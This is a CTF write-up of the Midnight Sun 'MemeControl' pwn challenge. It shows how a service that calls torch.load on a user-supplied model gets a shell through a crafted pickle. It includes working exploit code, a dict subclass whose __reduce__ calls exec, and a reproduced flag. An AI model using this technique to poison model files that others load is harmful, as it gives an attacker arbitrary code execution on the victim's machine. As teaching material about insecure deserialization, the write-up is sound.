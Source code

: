 # MemeControl
#### Category: pwn

Description:
> Author: hfs
> TODO:
>
>
> flag: midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}

**Tags:** Python, PyTorch, Pickle Deserialization, Midnight Sun CTF

## Takeaways

Importing/Loading wild ML models can result in arbitrary code execution. Thus, it is advised to load only models from trusworthy sources.

## Challenge

In this challenge we are given a piece of python code that expects a base64 encoded ML model, loads it, and sets it in evaluation mode. The evaluation in itself is not that interesting, but, PyTorch is well known to be insecure when loading a model from the wilderness.

As stated in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load):


> **Warning**:
> `torch.load()` unless *weights_only* parameter is set to *True*, uses `pickle module` implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. **Only load data you trust**

We can immediately recognize that the program is vulnerable to such an attack. In order to get remote code execution we just need to pop a shell during the unpickling. Perhaps by crafting it so that it executes `os.system('/bin/sh')`.

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

## Solution
Credits where they are due, we built our approach on the [patch-torch-save](https://github.com/yk/patch-torch-save) repo from `yk` that shows how to *poison* an existing model.

A model in itself is simply a dictionary, since we want to limit our payload as much as possible, and the actual usability of the model is of no concern. We define our model an plain dictionary. But an attacker could always use a legit large model. 

```python
super_ml_model: dict = {
    "Z":"T",
    "0":"T"
}
```

We define a `dict` subclass with a custom `__reduce__` function which will be called when the dict object will be pickled by `torch.save()`. 

`__reduce__` takes as a parameter a callable object that will be called to create the initial version of the object. In our case, we chose to simply use `exec` to execute any arbitrary code. Since there are no checks, our malicious code is as simple as it gets, the good ol' `os.system('/bin/sh')`.


```python
class BadDict(dict):

    def __init__(self, inject_src: str, **kwargs):
        super().__init__(**kwargs)
        self._inject_src = inject_src

    def __reduce__(self):
        return exec, (f'''{self._inject_src}''',), None, None, iter(self.items())

malicious_code = \
"""
import os
print("Hello from the other side! Popping a shell...")
os.system('/bin/sh')
"""

malicious_dict = BadDict(malicious_code, **super_ml_model)
torch.save(malicious_dict, "memecontrol.pth")
```

And we are all set! Now when the model will be unpickled by `torch.load()`, the malicious code will be executed. And we can simply cat the flag file.

```python
In [1]: import torch
In [2]: torch.load('./memecontrol.pth')
Hello from the other side! Popping a shell...
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```

## Final Exploit
`exploit.py` uses pwntools to automate the exploit both locally and remotely. Assuming you have all the required packages, you can test the exploit locally with:
```bash
$ python3 exploit.py LOCAL

[*] Exporting malicious model. Code to be executed:
    import os
    print("Hello from the other side! Popping a shell...")
    os.system('/bin/sh')
[+] Starting local process '/home/ctfbox/.pyenv/shims/python3': pid 39565
...
Send the base64 encoded model: 
[*] Pushing payload: UEsDBAAACAgAAAAAAAAAAAAAAAAAAAAA...
[+] Evaluating the model ...
    Hello from the other side! Popping a shell...
[*] Switching to interactive mode
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```


